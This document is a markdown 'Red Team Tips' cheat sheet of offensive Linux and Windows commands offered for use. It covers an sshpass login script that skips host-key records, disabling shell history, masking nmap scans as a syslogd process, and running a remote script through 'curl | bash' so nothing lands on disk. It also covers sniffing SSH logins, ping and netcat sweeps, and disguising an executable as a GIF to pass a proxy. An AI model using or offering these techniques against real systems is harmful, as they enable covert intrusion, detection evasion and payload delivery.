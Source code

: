 ```yaml
---
title: Red Team Tips
date: 2099-11-24 15:17:17
icon: icon-hackaday
background: bg-[#d33731]
tags:
    - red team
    - attack
categories:
    - Initial Access
intro: |
    Red Team Offensive Tips.
---
```


## hide your purpose

### ssh connection not logged {.row-span-2}

#### ssh.sh Source Code

```shell script{.wrap}
#!/bin/sh
sshpass -p $3 ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -o GlobalKnownHostsFile=/dev/null $2@$1
```

#### ↓ Examples

```bash
$ ./ssh.sh 10.10.10.10 root password
```

### Execute after login

```bash
$ export HISTFILE=/dev/null
```
Disable history


### hide

```bash{.wrap}
$ (exec -a syslogd nmap -T0 10.0.2.1/24)
```

Hide commands by masking them to syslogd

### hide

```bash{.wrap}
$ exec -a syslogd nmap -T0 10.0.2.1/24 &>nmap.log &
```

Start a background hidden process as syslogd

### hide

```bash{.wrap}
$ curl -fsS https://<localhost>/script.sh | bash
```

The script file does not land

------------

## Online notification  {.cols-1}

### tcpdump

Sometimes you own a machine, but you need to know if there are other login operations. Here's one way to do it with tcpdump on the target Linux system:

```bash {.wrap}
$ tcpdump -i <ens0> -nlq "tcp[13] == 2 and dst port 22" | while read x; do echo "${x}"; echo -e '\a'; done 
```

-------------

## Host scans in specific scenarios {.cols-2}

### ping

```bash {.wrap}
$ for i in {1..254}; do (ping -c 1 172.17.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```

### nc

```bash {.wrap}
$ nc -zv 192.168.0.1 1-65535 &> results && cat results | grep succeeded
```

## Get server IP address and port {.cols-2}

### ip

* When there is no `arp` command, you can use `ip neigh`
{.marker-round}

### port

* When there are no `ip`, `ifconfig` and other commands (such as in the container), you can use cat `/proc/net/fib_trie` to view the local IP and you will see the IPv4 address. Or `/proc/net/tcp`, to view the hexadecimal port converted data.
  {.marker-round}

-------------

## file transfer {.cols-1}

### bypass transfer

When a proxy blocks your file downloads:

```bash {.wrap}
$ sed '1s/^/GIF87a/' calc.exe > calc.gif
```

#### Windows Run

```powershell {.wrap}
cmd> curl.exe -qk -X GET -C 6 https://example.com/calc.gif > calc.exe
```

